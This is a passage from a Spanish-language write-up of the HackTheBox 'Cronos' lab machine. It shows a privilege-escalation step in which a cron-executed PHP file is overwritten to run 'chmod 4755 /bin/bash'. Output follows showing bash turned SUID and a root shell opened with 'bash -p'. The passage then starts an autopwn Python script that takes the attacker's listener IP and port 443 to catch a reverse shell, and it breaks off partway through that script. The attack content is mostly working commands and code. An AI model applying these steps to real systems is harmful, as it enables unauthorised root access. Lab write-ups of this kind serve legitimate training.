 O tambien podriamos hacer esto:

```bash
#!/usr/bin/env php
<?php
exec("chmod 4755 /bin/bash");
/*
|--------------------------------------------------------------------------
| Register The Auto Loader
<data>
```

```bash
www-data@cronos:/tmp$ watch -n 1 ls -la /bin/bash
Every 1.0s: ls -la /bin/bash                                                                                                                                                                                       Thu Aug 19 19:16:48 2021

-rwxr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash

Every 1.0s: ls -la /bin/bash                                                                                                                                                                                       Thu Aug 19 19:17:11 2021

-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
```

Ahora la bash tiene permisos SUID:

```bash
www-data@cronos:/var/www/laravel$ bash -p
bash-4.3# whoami
root
bash-4.3#
```

Script que automatiza la intrusion como www-data:

```python
#!/usr/bin/python3
#Para su correcto funcionamiento teneis que agregar al /etc/hosts la IP 10.10.10.13 y el dominio admin.cronos.htb
#Uso: python3 autopwn_cronos.py <LHOST>
#Ejemplo : python3 autopwn_cronos 10.10.16.198

import sys
import requests
import time
import subprocess
import os
from pwn import *

signal.signal(signal.SIGINT, signal.SIG_DFL)

#Variables
IP = sys.argv[1]          #LHOST => Ip del atacante
url = "http://admin.cronos.htb/index.php"
url_exec = "http://admin.cronos.htb/welcome.php"
lport = 443
#Funciones
def def_handler(sig, frame):
    print("\n[-]Saliendo....\n")
    sys.exit(1)

def obtainShell():
    try:
        s = requests.Session()
        login_data = {
```